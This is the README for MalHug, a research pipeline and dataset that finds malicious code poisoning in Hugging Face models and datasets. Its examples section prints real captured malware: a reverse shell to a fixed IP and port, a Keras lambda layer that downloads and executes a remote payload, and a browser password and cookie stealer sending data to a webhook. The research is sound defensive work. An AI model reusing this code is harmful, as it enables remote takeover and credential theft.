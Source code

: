 # MalHug

MalHug is a pipeline for detecting models and datasets containing malicious code poisoning on Hugging Face. As of July 12, 2024, we collected 705K models and 176K datasets for detection, and finally found 100 malicious repositories, including 91 malicious models and 9 malicious datasets.

## Dataset Structure

The `malhug_result_info.csv` file in this repository provides metadata of the malicious model and dataset, a list of files containing malicious code, sensitive APIs used, and detailed malicious code slices.

The datasets containing the source files of malicious models and datasets have been uploaded to Zenodo(https://zenodo.org/records/13850049), organized as follows:

`model or dataset -> author -> model/dataset name -> source files zip file.`

`Example: model -> 191fdp -> test ->191fdp-test.tar.gz`

## False  positive

**We have manually checked all collected malicious models and datasets and have now removed all false positives.**

## Citation

This dataset is part of the work "Models Are Codes: Towards Measuring Malicious Code Poisoning Attacks on Pre-trained Model Hubs" published in the ASE 2024.

```
@article{zhao2024models,
  title={Models Are Codes: Towards Measuring Malicious Code Poisoning Attacks on Pre-trained Model Hubs},
  author={Zhao, Jian and Wang, Shenao and Zhao, Yanjie and Hou, Xinyi and Wang, Kailong and Gao, Peiming and Zhang, Yuanchao and Wei, Chen and Wang, Haoyu},
  journal={arXiv preprint arXiv:2409.09368},
  year={2024}
}
```

## Malicious Code Examples

#### Remote Control in Model Repository `star23/baller10`

Malicious code is injected into a pickle file.

```python
RHOST="192.248.1.167";RPORT=4242;
from sys import platform
if platform != 'win32':
    import threading
    def a():
        import socket, pty, os
        RHOST="192.248.1.167";RPORT=4242
        s=socket.socket();s.connect((RHOST,RPORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")
    threading.Thread(target=a).start()
else:
    import os, socket, subprocess, threading, sys
    def s2p(s, p):
        while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()
    def p2s(s, p):
        while True: s.send(p.stdout.read(1).encode())
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    while True:
        try: s.connect(("192.248.1.167", 4242)); break
        except: pass
    p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)
    threading.Thread(target=s2p, args=[s,p], daemon=True).start()
    threading.Thread(target=p2s, args=[s,p], daemon=True).start()
    p.wait()
```

#### Remote Control in Model Repository `opendiffusion/sentimentcheck`

Embedded in a Keras model's lambda layer.

```python
# Embedded file name: /home/adrianw/ml3/train.py
return exec('\nimport os\nimport sys\nimport base64\nimport pickle\nimport requests\nfrom tensorflow import keras \n\nr = requests.get("https://nplrrfht7mgftxyfggrtueqrsm0sgdif.lambda-url.us-west-2.on.aws/", headers={\'X-Plat\': sys.platform})\ndir = os.path.expanduser(\'~\')\nfile = os.path.join(dir,\'.training.bin\') \nwith open(file,\'wb\') as f:\n    f.write(r.content)\n\nexec(base64.b64decode("aW1wb3J0IG9zLCBzdWJwcm9jZXNzCm9zLmNobW9kKGZpbGUsIDBvNzU1KQp0cnk6CiAgICBzdWJwcm9jZXNzLlBvcGVuKFtvcy5wYXRoLmpvaW4ob3MucGF0aC5leHBhbmR1c2VyKCd+JyksJy50cmFpbmluZy5iaW4nKSBdLCBzdGFydF9uZXdfc2Vzc2lvbj1UcnVlKQpleGNlcHQ6CiAgICBwYXNzCg=="))\n') or x
```

#### Browser Credential Theft in Dataset Repository `Besthpz/best`

Some code In the `best.py` file.

```python
def main():
    Functions.Initialize()
    passwordData = StealerFunctions.stealPass()
    cookieData = StealerFunctions.stealCookies()
    StealerFunctions.sendToWebhook(f"Password Data:\n{passwordData}\n\nCookie Data:\n{cookieData}")
    zip_file(Paths.stealerLog, os.path.join(Paths.stealerLog, 'LOG.zip'), 'henanigans')

```
